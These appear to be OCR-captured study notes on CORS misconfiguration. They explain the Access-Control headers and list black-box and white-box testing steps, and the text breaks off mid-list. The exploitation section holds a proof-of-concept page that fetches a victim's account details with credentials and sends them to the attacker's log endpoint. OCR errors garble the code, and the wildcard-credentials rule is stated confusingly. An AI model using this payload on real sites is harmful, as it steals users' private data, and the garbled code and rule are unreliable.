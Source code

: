 ## cors

It instructs the browser which resource to access from other websites
These headers start with ```Access Control``` for example, 

Basically adds flexibility to the same origin policy.

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: https://a.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:
cache-control, content-language, expires, last-modified, content-range, content-length, accept-ranges
Cache-Control: no-cache
Content-Туре: application/json
Vary: Accept-Encoding
Connection: close
Content-Length: 15
{"status": "ok"}

```

- Access-Control-Allow-Origin : describes which origin can access the response, if the header is set to **wildcard** then the it can access resources from any origin
- Access-Control-Allow-Credentials : indicates if request can contain credentials,if this is set to true any request sent will include the cookies and by default this header is set to false.
- Access-Control-Expose-Headers : allowing certain headers.


If origin header is said to wildcard then credentials cannot be false for security reasons


Blackbox Testing of this misconfiguration:

* Map the application 
* Test the application for dynamic generation
    - Does it refelct ACAO headers or not.(changing the values of the headers of the website)
    - some use regex to validate the string.
    - Does it allow null origin
    - Does it restrict the protocol
    - Does it allow passing the credentials
* once cors is found determine the impact of it.

White box

* Determine the frameworks used.
* find out if that stack allows for cors configuration 
* review code to identify any misconfiguration in cors rules


Exploitation 

* If the application allows for credentials.
    - This it the poc used
``` <html> ‹body›
        <h1›Hello World!‹/h1>
        <scripts>
        var hr = new XMLHttpRequest () ;
        var url = "<https://vulnerable-site.com>"
        xhr.onreadystatechange = function() {
             if (xhr.readyState == XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open ('GET', url + "/accountDetails", true);
        xhr.withCredentials = true;
        xhr.send (null);
        ‹/script> </bodv>

     </html>
```

* if the application does not allow for credentials.
    -